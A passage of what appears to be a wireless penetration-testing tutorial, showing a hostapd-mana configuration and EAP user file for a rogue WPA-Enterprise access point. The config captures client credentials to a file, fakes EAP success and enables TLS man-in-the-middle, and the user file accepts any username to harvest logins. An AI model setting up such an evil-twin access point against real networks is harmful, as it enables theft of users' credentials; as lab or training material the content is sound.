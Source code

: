 ```
# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

###### Create a EAP user file:
```
sudo mousepad /etc/hostapd-mana/mana.eap_user
```
The file should contain the following:
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
- The first column indicates a specific user by username or, in the event of wildcard character (`*`), any user. It can contain a domain name as well.
- The second column contains the protocols allowed for the specific users and authentication phase.
- The third one is optional and is used for the password when a specific user is mentioned.
- The fourth one, indicated here with `[2]`, indicates that the settings on this line are for phase 2 authentication.
